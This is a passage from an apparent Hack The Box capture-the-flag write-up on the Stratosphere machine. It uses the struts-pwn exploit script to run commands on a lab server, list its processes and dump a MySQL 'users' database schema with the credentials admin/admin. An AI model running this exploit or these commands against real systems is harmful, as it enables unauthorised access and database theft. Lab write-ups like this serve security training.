 This gives us two username and passwords to try to connect to the database with. We also see that MySQL is running on the box.

```
root@kali:~/htb/stratosphere# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'ps -ef'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: ps -ef
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 Apr29 ?        00:00:03 /sbin/init
~
~
mysql      807     1  0 Apr29 ?        00:00:33 /usr/sbin/mysqld
~
~
```

Now, we aren't able to get a mysql shell prompt directly but instead what we can do is try to dump the databases using `mysqldump`. After testing, the ssn_admin creds prove useless, however admin works just fine.

```
root@kali:~/htb/stratosphere# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqldump -u admin --password=admin --no-data users'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: mysqldump -u admin --password=admin --no-data users
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

mysqldump: Got error: 1044: "Access denied for user 'admin'@'localhost' to database 'users'" when using LOCK TABLES
-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: users
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

[%] Done.
```
